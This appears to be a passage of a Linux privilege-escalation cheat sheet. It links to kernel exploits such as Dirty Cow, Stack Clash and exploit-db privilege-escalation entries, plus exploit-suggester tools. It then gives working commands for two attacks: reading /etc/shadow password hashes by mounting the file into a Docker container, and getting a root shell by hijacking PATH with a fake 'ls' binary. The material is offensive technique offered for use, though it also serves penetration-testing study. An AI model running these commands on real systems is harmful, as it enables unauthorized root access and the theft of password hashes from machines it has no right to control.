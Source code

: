 [Arbitrary Code Execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution)

[Buffer Overflows](https://en.wikipedia.org/wiki/Buffer_overflow)

[Memory Corruption](https://en.wikipedia.org/wiki/Memory_corruption)

[Denial Of Service](https://en.wikipedia.org/wiki/Denial-of-service_attack)

[Race Conditions](https://en.wikipedia.org/wiki/Race_condition)

[Dirty Cow](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

[Stack Clash](https://blog.qualys.com/vulnerabilities-threat-research/2017/06/19/the-stack-clash)

[DCCP Double-Free Privilege Escalation](https://www.exploit-db.com/exploits/41458)

[Race Condition Privilege Escalation](https://www.exploit-db.com/exploits/43345)

[Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

[Kernelpop](https://github.com/spencerdodd/kernelpop)

# UNIX Sockets
### Execute Commands through Docker as root
```bash
# Running Docker as non-root.
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
# Now running inside of Docker as root.
cat /docker/hashedpasswords > /docker/output.txt
chmod +777 /docker/output.txt
cat /docker/output.txt
```

### UNIX Sockets References
[Docker](https://docs.docker.com/engine/install/linux-postinstall/)

[Docker Tips: about /var/run/docker.sock](https://betterprogramming.pub/about-var-run-docker-sock-3bfd276e12fd)

# Script Executing as root
```bash
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
cd ~
./script
```

# References
[0xsp Cheatsheet](https://0xsp.com/offensive/privilege-escalation-cheatsheet/)
